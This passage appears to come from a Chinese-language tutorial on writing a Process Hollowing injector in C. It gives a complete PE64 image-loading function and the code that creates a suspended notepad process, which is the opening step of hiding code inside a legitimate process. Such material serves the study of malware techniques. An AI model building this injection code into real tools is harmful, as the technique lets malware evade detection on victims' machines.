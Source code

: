 将上述过程写成`load_pe64`函数，其完整内容如下：

```c
unsigned char *load_pe64(unsigned char *buf, int *pSizeOfImage, ULONGLONG *pImageBase, DWORD *pEntryPoint) {
    //读取DOS文件头，获取e_lfanew
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)&buf[0];
    //获取映像头
    PIMAGE_NT_HEADERS64 ntHeader = (PIMAGE_NT_HEADERS64)&buf[dosHeader->e_lfanew];
    //根据可选头的SizeOfImage分配内存
    unsigned char *mem = calloc(ntHeader->OptionalHeader.SizeOfImage, 1);
    (*pImageBase) = ntHeader->OptionalHeader.ImageBase;
    (*pEntryPoint) = ntHeader->OptionalHeader.AddressOfEntryPoint;
    (*pSizeOfImage) = ntHeader->OptionalHeader.SizeOfImage;
    //获取节表起始位置
    PIMAGE_SECTION_HEADER sectionHeader = 
        (PIMAGE_SECTION_HEADER)&buf[dosHeader->e_lfanew + sizeof(DWORD) + sizeof(IMAGE_FILE_HEADER) + ntHeader->FileHeader.SizeOfOptionalHeader];
    //将文件头复制到内存中
    memcpy(mem, buf, ntHeader->OptionalHeader.SizeOfHeaders);
    //将每一节的内容依次复制到内存中
    for(int i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        DWORD rva = sectionHeader[i].VirtualAddress;
        DWORD fptr = sectionHeader[i].PointerToRawData;
        memcpy(&mem[rva], &buf[fptr], sectionHeader[i].SizeOfRawData);
    }
    return mem;
}
```

## 编写程序实现Process Hollowing

### 创建挂起的notepad进程

创建挂起状态的子进程只需要在CreateProcessA的时候加一句CREATE_SUSPENDED就行了。

```c
    //创建挂起的notepad进程
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);
    BOOL result = CreateProcessA( NULL,        //lpApplicationName
                    "notepad",  //lpCommandLine
                    NULL,
                    NULL,
                    FALSE,
                    CREATE_SUSPENDED,
                    NULL,
                    NULL,
                    &si,    //lpStartupInfo
                    &pi);   //lpProcessInformation
    if(!result) {
        printf("CreateProcess Failed: %d\n", GetLastError());
        return -1;
    }
    printf("Create Suspended notepad, pid: %d\n", pi.dwProcessId);
```
